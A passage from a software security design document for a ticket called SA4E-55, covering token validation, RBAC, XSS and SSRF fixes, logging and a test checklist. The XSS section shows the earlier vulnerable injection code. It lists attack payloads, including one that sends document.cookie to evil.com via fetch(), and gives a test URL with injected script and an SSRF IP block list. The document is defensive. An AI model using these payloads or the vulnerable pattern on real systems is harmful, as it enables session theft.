| Idempotent migration | Schema.ts `ALTER TABLE` in try/catch | Safe for existing installations |
| First-write-wins | `registerProject()` ON CONFLICT | `created_by` not updated on upsert — prevents ownership hijack |

### 6.4 Error Handling

| Exception / Condition | HTTP Status | Error Code | Handler |
|----------------------|-------------|------------|---------|
| No Authorization header | 401 | `Unauthorized` | `requireAuth`, `requireDatabaseAuth` |
| Token not in sessions table | 401 | `Unauthorized` | `validateSession` returns null |
| JWT invalid signature | 401 | `Unauthorized` | `verifyJwtToken` returns `valid: false` |
| Valid token, missing CONFIG_EDIT | 403 | `Forbidden: missing permission CONFIG_EDIT` | `requirePermission` |
| Valid token, missing RBAC_MANAGE | 403 | `Forbidden: missing permission RBAC_MANAGE` | `requirePermission` |
| JWT project mismatch | 403 | `FORBIDDEN` | `verifyProjectBinding` |
| Zod validation failure | 400 | `VALIDATION` | `connectionSchema.safeParse` |
| SSRF blocked | 200 (success:false) | — | `validateExternalUrl` returns `valid: false` |
| XSS token stripped to empty | 200 (no script) | — | Silent sanitization, page loads normally |
| `validateSession` DB error | null (deny) | — | `safeValidateSession` wraps in try/catch |

---
## 7. Security Design

> This section is the primary focus of SA4E-55. It specifies the technical patterns for each security concern.

### 7.1 Auth Token Validation Flow

```
Incoming request with Authorization: Bearer {token}
   │
   ├─► isApiKeyAuthEnabled() == true?
   │      YES → compare token to CODE_INTEL_API_KEY
   │             MATCH → userId = 'api-key-user', apiKey = true → ✅ pass
   │             NO MATCH → return null → 401
   │
   └─► Session/JWT mode:
          token.split('.').length == 3?
          │
          ├─► YES → JWT path
          │      TOKEN_SECRET set? → verifyHs256(token, secret) → valid?
          │          NO → return { valid: false }
          │      decodeJwtPayload(token) → payload.exp check
          │          EXPIRED → return { valid: false }
          │      payload.sub → userId = payload.sub → ✅ pass
          │
          └─► NO → Session token path
                 validateSession(token) → SELECT ... FROM sessions WHERE token = ?
                     NOT FOUND → return null → 401
                     FOUND, expiresAt < now → return null → 401
                     FOUND, valid → userId = session.userId → ✅ pass
```

**Implementation:** `resolveCallerIdentity()` in `tools.ts`, `requireAuth()` in `api-index.ts`, `requireDatabaseAuth()` in `database.ts`, `authenticate()` in `context.ts`.

**Fail-closed guarantee:** `safeValidateSession()` catches DB errors and returns null — auth failure never throws, never bypasses.

### 7.2 RBAC Check Pattern

```typescript
// Pattern A: authGuard() — used in admin routes
async function authGuard(c): Promise<Response | null> {
  const user = await ctx.requireAuth(c);        // Step 1: authenticate
  if (user instanceof Response) return user;    // 401 if no valid session
  const perm = await ctx.requirePermission(c, user.userId, 'CONFIG_EDIT'); // Step 2: authorize
  if (perm instanceof Response) return perm;    // 403 if missing permission
  return null; // null = access granted
}

// Usage
app.get('/api/admin/database/status', async (c) => {
  const deny = await authGuard(c);
  if (deny) return deny;  // short-circuit: 401 or 403
  // ... business logic only runs here
});
```

**Permission resolution:**
```typescript
// getUserPermissions() → checks group_permissions table
const permissions = await getUserPermissions(userId);
const perm = permissions.find(p => p.permissionId === requiredPermission);
if (!perm) return { has: false, roleData: {} };
return { has: true, roleData: perm.roleData };
```

**RBAC permission matrix for SA4E-55:**

| Permission | Endpoints Gated | Group Seeds |
|-----------|----------------|-------------|
| CONFIG_EDIT | /api/admin/database/*, /api/admin/llm/*, /api/admin/config | grp-admin |
| RBAC_MANAGE | POST /api/admin/kb/graph/sync, GET /api/admin/projects (admin view) | grp-admin |
| MCP_ACCESS | GET /mcp/tools/list (filter) | grp-admin, grp-dev, grp-mcp-ops |

### 7.3 XSS Sanitization Pattern

**Finding F-13 — Admin Portal Token Handoff**

```typescript
// BEFORE (vulnerable):
html = html.replace('</head>', `<script>localStorage.setItem("admin_token","${token}")</script></head>`);

// AFTER (safe):
const safeToken = token.replace(/[^A-Za-z0-9\-_.]/g, '');
if (safeToken.length > 0) {
  const injectScript = '<script>localStorage.setItem("admin_token","' + safeToken + '");</script>';
  html = html.replace('</head>', injectScript + '</head>');
}
```

**Allowlist rationale:**
- `A-Za-z0-9` — alphanumeric (covers hex session tokens)
- `-` — hyphen (valid in base64url JWTs)
- `_` — underscore (valid in base64url JWTs)
- `.` — dot (JWT segment separator)
- All other chars (quotes, `<`, `>`, `(`, `)`) are stripped — prevents script injection

**Attack vectors blocked:**
| Payload | After Sanitization | Result |
|---------|-------------------|--------|
| `x"</script>` | `x` | Only `x` injected |
| `<script>alert(1)</script>` | `` (empty) | No script block injected |
| `"; fetch('http://evil.com/'+document.cookie)//` | `` (empty) | No injection |

### 7.4 SSRF Protection Pattern

**Finding F-15 — LLM test/models outbound HTTP**

```typescript
// validateExternalUrl() — blocks private IP ranges
function validateExternalUrl(rawUrl: string): UrlValidationResult {
  const parsed = new URL(rawUrl);
  // Only http:// and https://
  if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:')
    return { valid: false, error: "Scheme not allowed" };
  // Block localhost aliases
  if (BLOCKED_HOSTNAMES.includes(hostname))
    return { valid: false, error: "Localhost URLs not allowed" };
  // Block private IP ranges: 10.x, 127.x, 169.254.x, 192.168.x, 172.16-31.x, ::1
  if (isPrivateIp(hostname))
    return { valid: false, error: "Private/internal IP not allowed" };
  return { valid: true };
}
```

**Blocked IP ranges:**
| Range | CIDR | Block Reason |
|-------|------|-------------|
| 10.x.x.x | 10.0.0.0/8 | Private RFC1918 |
| 172.16-31.x.x | 172.16.0.0/12 | Private RFC1918 |
| 192.168.x.x | 192.168.0.0/16 | Private RFC1918 |
| 127.x.x.x | 127.0.0.0/8 | Loopback |
| 169.254.x.x | 169.254.0.0/16 | Link-local (cloud metadata) |
| ::1, [::1] | — | IPv6 loopback |
| fc00::/7, fd00::/8 | — | IPv6 private |

**Applied in:** `POST /api/admin/llm/test` (config.ts). Localhost `http://localhost:11434` is exempt (default Ollama URL).

**Response design:** SSRF block returns HTTP 200 `{ success: false, message: "SSRF blocked: ..." }` — NOT 4xx. This prevents the client from distinguishing blocked internal IPs from connection-refused public IPs (information disclosure).

### 7.5 Data Isolation Pattern

**Finding F-16 — Workspace data leakage**

```typescript
// RBAC-based query branching
const rbacCheck = await ctx.requirePermission(c, user.userId, 'RBAC_MANAGE');
const isAdmin = !(rbacCheck instanceof Response);

const rows = isAdmin
  // Admin: all rows
  ? await adapter.allAsync('SELECT ... FROM project_registry ORDER BY last_seen DESC LIMIT 100')
  // Regular: only caller's rows (match userId OR username for legacy compat)
  : await adapter.allAsync(
      'SELECT ... FROM project_registry WHERE created_by = ? OR created_by = ? ORDER BY last_seen DESC LIMIT 100',
      [user.userId, user.username ?? '']
    );
```

**Legacy compatibility:** Rows created before SA4E-55 have `created_by = ''`. Regular users do not see these (empty string ≠ userId). Admins see all. This is intentional — legacy rows have no trusted owner.

### 7.6 Reserved Scope Key Scrubbing

**Finding F-10 — Identity spoofing via X-User-Id / __userId**

```typescript
const RESERVED_SCOPE_KEYS = ['__projectId', '__userId', '__workspaceRoot'] as const;

function stripReservedKeys(args: Args): void {
  for (const key of RESERVED_SCOPE_KEYS) delete args[key];
}
```

Strip happens UNCONDITIONALLY before any `stampUserId()` call. A client cannot inject a trusted `__userId` even if the server later falls through to dev-mode fallback.

### 7.7 Authorization — Full Matrix

| Role | Permission | Endpoints | Behavior |
|------|-----------|-----------|----------|
| Unauthenticated | None | GET /admin | HTML only; no data access |
| Any authenticated | — | POST /api/index/*, GET+POST /mcp/tools/* | Auth required, no RBAC gate |
| Any authenticated | MCP_ACCESS | GET /mcp/tools/list | Filtered by toolAccess roleData |
| Any authenticated (no MCP_ACCESS) | — | GET /mcp/tools/list | Returns `{ tools: [] }` |
| Admin | CONFIG_EDIT | /api/admin/database/*, /api/admin/llm/*, /api/admin/config | Full access |
| Admin | RBAC_MANAGE | GET /api/admin/projects | All rows |
| Regular user | — | GET /api/admin/projects | Own rows only (created_by) |
| Admin | RBAC_MANAGE | POST /api/admin/kb/graph/sync | Allowed |
| Any (GRAPH_VIEW only) | GRAPH_VIEW | POST /api/admin/kb/graph/sync | 403 Forbidden |
| API Key User | All | All endpoints | Full access, no RBAC filter |

### 7.8 Data Protection

| Data Type | At Rest | In Transit | In Logs |
|-----------|---------|------------|---------|
| Session tokens | SQLite `sessions` table (hashed?) | TLS (recommended) | NEVER logged |
| DB passwords | `database.json` (plain — operator responsibility) | TLS | NEVER logged |
| LLM API keys | `process.env.LLM_API_KEY` | TLS | Masked as `***` in responses |
| userId / username | SQLite plain | TLS | Safe — not sensitive |
| Workspace paths | SQLite plain | TLS | Safe |
| JWT claims (sub, pid) | Signed — no encryption | TLS | WARNING if X-User-Id fallback used |

### 7.9 Audit Logging

| Security Event | Log Level | Fields Logged |
|---------------|-----------|---------------|
| 401 (auth failure) | WARN | route, token prefix (8 chars), timestamp |
| 403 (permission denied) | WARN | userId, route, required permission |
| SSRF blocked | WARN | userId, destination URL, reason |
| X-User-Id fallback used | WARN | userId-from-header, route |
| JWT project mismatch | WARN | projectId, granted[], sub |
| Config change | INFO (audit_log) | userId, section, key, old/new value |
| Graph sync initiated | INFO (audit_log) | userId, timestamp |

---
## 8. Performance & Scalability

### 8.1 Auth Performance Impact

| Operation | Estimated Time | Notes |
|-----------|---------------|-------|
| `validateSession(token)` | < 2ms | Indexed SQLite lookup: `idx_sessions_token` on `token` column |
| `verifyHs256(token, secret)` | < 1ms | In-process HMAC-SHA256 (Node.js `crypto`) |
| `getUserPermissions(userId)` | < 2ms | SQLite join users → access_groups → group_permissions |
| Total auth overhead per request | < 5ms | Satisfies FSD §11 NFR: < 5ms target |

### 8.2 Connection Pooling

No connection pooling changes. better-sqlite3 is synchronous, single-connection by design. Async wrapper pattern used for cross-DB compatibility.

### 8.3 Performance Targets

| Operation | Target | Met By |
|-----------|--------|--------|
| Auth check | < 5ms p95 | Indexed SQLite, in-process crypto |
| Index endpoints | < 100ms | Auth adds < 5ms; file write dominates |
| DB admin endpoints | < 200ms | Auth + Zod validation < 10ms |
| Token sanitization (XSS) | < 0.1ms | Single regex replace on string |

---

## 9. Monitoring & Observability

### 9.1 Logging

| Log Event | Level | Fields | Destination |
|-----------|-------|--------|-------------|
| Auth failure (401) | WARN | route, tokenPrefix (8 chars) | pino stdout |
| Permission denied (403) | WARN | userId, route, requiredPermission | pino stdout |
| SSRF blocked | WARN | userId, destination, reason | pino stdout |
| X-User-Id fallback | WARN | userId, route | pino stdout |
| JWT project mismatch | WARN | projectId, granted[], sub | pino stdout |
| Config change | INFO | section, key, changedBy | audit_log table |
| Graph sync | INFO | userId, timestamp | pino + audit_log |

### 9.2 Health Checks

Auth layer is transparent to health checks. `GET /health` endpoint requires no auth and is unaffected by SA4E-55 changes.

---

## 10. Implementation Checklist

### 10.1 Completed Steps (verified in source)

| # | File | Change | Status |
|---|------|--------|--------|
| 1 | `api-index.ts` | `requireAuth()` function defined at module scope | ✅ Done |
| 2 | `api-index.ts` | `/api/index/source` guarded by `requireAuth()` | ✅ Done |
| 3 | `api-index.ts` | `/api/index/document` guarded by `requireAuth()` | ✅ Done |
| 4 | `api-index.ts` | `/api/index/documents` guarded by `requireAuth()` | ✅ Done |
| 5 | `api-index.ts` | `session.userId` passed as `createdBy` to `registerProjectPhase()` | ✅ Done |
| 6 | `database.ts` | `requireDatabaseAuth()` defined | ✅ Done |
| 7 | `database.ts` | All 5 routes guarded by `requireDatabaseAuth()` | ✅ Done |
| 8 | `database.ts` | Migrate: auth before SSE stream open | ✅ Done |
| 9 | `admin/database.ts` | `authGuard()` defined using ctx.requireAuth + requirePermission | ✅ Done |
| 10 | `admin/database.ts` | All 7 admin DB routes guarded by `authGuard()` (CONFIG_EDIT) | ✅ Done |
| 11 | `admin/database.ts` | `POST /api/admin/database/validate-schema` added (F-20) | ✅ Done |
| 12 | `admin/static.ts` | `safeToken = token.replace(/[^A-Za-z0-9\-_.]/g, '')` | ✅ Done |
| 13 | `admin/static.ts` | `if (safeToken.length > 0)` before injection | ✅ Done |
| 14 | `admin/kb-graph.ts` | Graph sync uses `RBAC_MANAGE` (not `GRAPH_VIEW`) | ✅ Done |
| 15 | `admin/config.ts` | `GET /api/admin/llm/models` requires CONFIG_EDIT | ✅ Done |
| 16 | `admin/config.ts` | `POST /api/admin/llm/test` requires CONFIG_EDIT | ✅ Done |
| 17 | `admin/config.ts` | `validateExternalUrl(base)` called for non-localhost LLM URLs | ✅ Done |
| 18 | `admin/config.ts` | LLM API key masked as `'***'` in config response | ✅ Done |
| 19 | `admin/config.ts` | `GET /api/admin/config` requires CONFIG_EDIT | ✅ Done |
| 20 | `admin/index.ts` | `GET /api/admin/projects` branches on RBAC_MANAGE | ✅ Done |
| 21 | `admin/index.ts` | Non-admin query: `WHERE created_by = ? OR created_by = ?` | ✅ Done |
| 22 | `admin/index.ts` | Returns `{ projects: [] }` on error (not 500) | ✅ Done |
| 23 | `tools.ts` | `resolveCallerIdentity()` defined (API key → session → JWT) | ✅ Done |
| 24 | `tools.ts` | `GET /mcp/tools/list` requires auth via `resolveCallerIdentity()` | ✅ Done |
| 25 | `tools.ts` | MCP_ACCESS RBAC filter applied on tools list | ✅ Done |
| 26 | `tools.ts` | No MCP_ACCESS → `{ tools: [] }` (not 403) | ✅ Done |
| 27 | `tools.ts` | `stripReservedKeys()` called UNCONDITIONALLY before stampUserId | ✅ Done |
| 28 | `tools.ts` | `stampUserId()`: X-User-Id only as fallback in dev mode + WARNING | ✅ Done |
| 29 | `tools.ts` | `verifyProjectBinding()`: JWT pid/pids check, mismatch → 403 | ✅ Done |
| 30 | `schema.ts` | `created_by TEXT NOT NULL DEFAULT ''` idempotent migration | ✅ Done |
| 31 | `GraphRepository.ts` | `registerProject(projectId, displayName, workspacePath, createdBy='')` | ✅ Done |
| 32 | `GraphRepository.ts` | `created_by` included in INSERT; NOT updated on ON CONFLICT | ✅ Done |
| 33 | `interfaces.ts` | `IGraphRepository.registerProject(createdBy?: string)` | ✅ Done |

### 10.2 Verification Checklist

| # | Test | Expected |
|---|------|----------|
| 1 | POST /api/index/source without Bearer | HTTP 401 |
| 2 | POST /api/index/source with valid session | HTTP 200, createdBy = userId in project_registry |
| 3 | GET /api/admin/database/status without Bearer | HTTP 401 |
| 4 | GET /api/admin/database/status (admin module) without CONFIG_EDIT | HTTP 403 |
| 5 | GET /admin?token=x%22<script>alert(1)</script> | HTML rendered, no XSS, token stripped |
| 6 | GET /admin?token= | HTML rendered, no script block |
| 7 | POST /api/admin/kb/graph/sync with GRAPH_VIEW only | HTTP 403 |
| 8 | POST /api/admin/kb/graph/sync with RBAC_MANAGE | HTTP 200, sync_started |
| 9 | GET /api/admin/llm/models without CONFIG_EDIT | HTTP 403 |
| 10 | POST /api/admin/llm/test with private IP base URL | HTTP 200, success: false, SSRF blocked |
| 11 | GET /api/admin/projects (regular user) | Only own projects |
| 12 | GET /api/admin/projects (admin) | All projects |
| 13 | GET /mcp/tools/list without auth | HTTP 401 |
| 14 | GET /mcp/tools/list without MCP_ACCESS | HTTP 200, tools: [] |
| 15 | POST /mcp/tools/call with __userId in body | __userId stripped silently |
| 16 | POST /mcp/tools/call with JWT, mismatched X-Project-Id | HTTP 403 |

---
## 11. Appendix

### Glossary

| Term | Definition |
|------|------------|
| requireAuth() | Local helper: validates Bearer token via validateSession(); returns userId or null |
| requireDatabaseAuth() | Same as requireAuth() but defined in database.ts for the routes module |
| authGuard() | Admin module helper: requireAuth() + requirePermission(CONFIG_EDIT) composed |
| resolveCallerIdentity() | Multi-mode: API key → session → JWT → null; returns { userId, apiKey } |
| validateSession(token) | SQLite lookup: SELECT from sessions WHERE token=? AND is_active=1 AND expiresAt > now |
| verifyJwtToken(token) | HMAC-SHA256 verify using KB_TOKEN_SECRET; returns { valid, payload } |
| getUserPermissions(userId) | Fetches group_permissions rows for the user's access group |
| validateExternalUrl(url) | SSRF check: blocks private IPs, localhost, non-http(s) schemes |
| CONFIG_EDIT | RBAC permission for database/LLM/config administration |
| RBAC_MANAGE | RBAC permission for user management and admin-only operations |
| MCP_ACCESS | RBAC permission controlling MCP tool visibility |
| created_by | New column in project_registry storing the userId/username of the registering user |
| fail-closed | On error, deny access (return null/401/403); never bypass security on exception |

### Open Questions

| # | Question | Status |
|---|----------|--------|
| 1 | Should `requireDatabaseAuth()` in routes/database.ts also check CONFIG_EDIT? | Resolved: routes module does session-only; admin module does CONFIG_EDIT. Two separate paths for the same endpoints. |
| 2 | Should SSRF also block on DNS resolution (not just literal IP)? | Open: DNS rebinding attack. Current impl only checks literal hostname. Future: add DNS lookup before connect. |
| 3 | Should session tokens be hashed in sessions table (not plain)? | Open: Out of scope for SA4E-55. Tracked separately. |
| 4 | Should X-User-Id fallback be removed entirely (not just demoted)? | Resolved: Keep as dev-mode fallback with WARNING per BRD Story 3 Req 4. |

---

### Diagram Index

| # | Diagram | Image | Source (editable) |
|---|---------|-------|-------------------|
| 1 | Authentication/Authorization Middleware Pipeline | [architecture.png](diagrams/architecture.png) | [architecture.drawio](diagrams/architecture.drawio) |
| 2 | Component Diagram — Changed Files and Relationships | [component.png](diagrams/component.png) | [component.drawio](diagrams/component.drawio) |

---
